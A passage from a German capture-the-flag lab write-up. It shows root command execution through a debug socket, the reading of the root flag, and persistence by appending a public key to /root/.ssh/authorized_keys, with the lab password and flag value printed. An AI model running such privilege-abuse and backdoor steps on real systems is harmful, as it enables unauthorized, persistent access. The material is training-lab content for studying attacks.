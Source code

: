 Da alle Eingaben nun als Kommandos als Benutzer root ausgeführt werden, kann nun das letzte Flag ausgelesen werden. Dies geht jedoch nicht direkt mit einem Kommando wie `cat`, da der Output des Kommandos nicht zu sehen ist. Eine Möglichkeit ist es den Output in eine neue Datei weiterzuleiten, da so standardweise eine Datei erstellt wird, welcher von 'other' respektive von allen lokalen Benutzern gelesen werden kann.
Um die Verbindung mit dem Socket zu unterbrechen, kann ein ungültiger Befehl eingegeben werden, in diesem Fall 'asdf'.
``` {.bash}
cat /root/root.txt > /home/stormcloak/out
command executed!
enter command: asdf
asdf
an error has occured..
stormcloak@Riften:~$ cat ./out
cat ./out
Your flag is: 8e9e8455f6840e45e8c12798e7a47bf2 
```

**Gefundenes Flag:** ==root Flag `/root/root.txt`==

### SSH-Access für eine stabile Verbindung einrichten.

Für persistenz und einfacheren Zugriff, wurde bei root genau gleich wie beim Benutzer stormcloak, der eigene Public-Key für eine SSH Verbindung hintelegt.

Public-Key `id_rsa.pub` nach`/root/.ssh/authorized_keys` kopieren.

```.bash!
stormcloak@Riften:~$ socat - UNIX-CONNECT:/run/cloak.sock
Welcome to the debug socket!
Please provide your password: snakesnakefish!
password accepted!
enter command: echo "<public_key>" >> /root/.ssh/authorized_keys
command executed!
enter command: chmod 600 /root/.ssh/authorized_keys
command executed!

```

Über `ssh` mit `root@192.168.22.65` verbinden:
```.bash!
ssh stormcloak@192.168.22.65
```

Als root steht nun auch eine voll funktionsfühige BASH-shell zur Verfügung statt rbash, wie beim Benutzer stormcloak.


## Hinweise für CTF4?

In `/home/stormcloak/.git/config` wurde der vermutliche Name des nächsten Ziels gefunden:

```
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = git@gitlab.robstargames.com:stormcloak/list-of-spies.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

Die Domäne gitlab.robstargames.com war bis jetzt noch nie ein Ziel, daher die Annahme, dass dies das nächste Ziel sein könnte.